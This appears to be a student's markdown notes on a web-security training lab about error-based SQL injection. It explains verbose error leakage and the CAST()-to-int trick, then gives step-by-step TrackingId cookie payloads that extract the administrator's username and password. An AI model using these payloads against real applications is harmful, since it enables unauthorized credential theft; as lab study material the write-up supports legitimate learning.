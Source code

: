 # Visible error-based SQL injection
- Extracting sensitive data via verbose SQL error messages
  - Misconfiguration of the database sometimes results in verbose error messages
  - can provide information that may be useful to an attacker
  - the following error message, which occurs after injecting a single quote into an id paramete
  ```
  Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
  ```
  - This shows the full query that the application constructed using our input
  - we can see the context that we're injecting into
  - that is, a single-quoted string inside a WHERE statement. This makes it easier to construct a valid query containing a malicious payload
  - we can see that commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax
  - may be able to induce the application to generate an error message that contains some of the data that is returned by the query
  - effectively turns an otherwise blind SQL injection vulnerability into a "visible" one
  - One way of achieving this is to use the CAST() function, which enables you to convert one data type to another
  - a query containing the following statement
  ```
  CAST((SELECT example_column FROM example_table) AS int)
  ```
  - Often, the data that you're trying to read is a string
  - Attempting to convert this to an incompatible data type, such as an int, may cause an error similar to the following
  ```
  ERROR: invalid input syntax for type integer: "Example data"
  ```
  - may also be useful in cases where you're unable to trigger conditional responses because of a character limit imposed on the query.
# Lab
- SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- The results of the SQL query are not returned
- database contains a different table called users, with columns called username and password
# Goal
- leak the password for the administrator
- Log in via Administrator
# Solving The lab  
- Go to the Proxy > HTTP history tab and find a GET / request that contains a TrackingId cookie
- In Repeater, append a single quote to the value of your TrackingId cookie and send the request
```
TrackingId=qSEbpYZoqw3E7ooB'
```
- notice the verbose error message. This discloses the full SQL query, including the value of your cookie
- In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error
```
TrackingId=qSEbpYZoqw3E7ooB'--;
```
- no longer receive an error. This suggests that the query is now syntactically valid
- Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type
```
TrackingId=qSEbpYZoqw3E7ooB' AND CAST((SELECT 1) AS int)--
```
- different error saying that an AND condition must be a boolean expression
- can simply add a comparison operator (=) as follows
```
TrackingId=qSEbpYZoqw3E7ooB' AND 1=CAST((SELECT 1) AS int)--
```
- no longer receive an error. This suggests that this is a valid query again
- Adapt the SELECT statement so that it retrieves usernames from the database
```
TrackingId=qSEbpYZoqw3E7ooB' AND 1=CAST((SELECT username FROM users) AS int)--
```
- now we receive the initial error message again.  query now appears to be truncated due to a character limit. As a result, the comment characters added to fix up the query aren't included
- Delete the original value of the TrackingId cookie to free up some additional characters
```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```
- new error message, which appears to be generated by the database. This suggests that the query was run properly, but  still getting an error because it unexpectedly returned more than one row
```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
- the error message now leaks the first username from the users table
```
ERROR: invalid input syntax for type integer: "administrator"
```
- now modify the query once again to leak their password
```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
- and we got the password and solved the lab by logging in

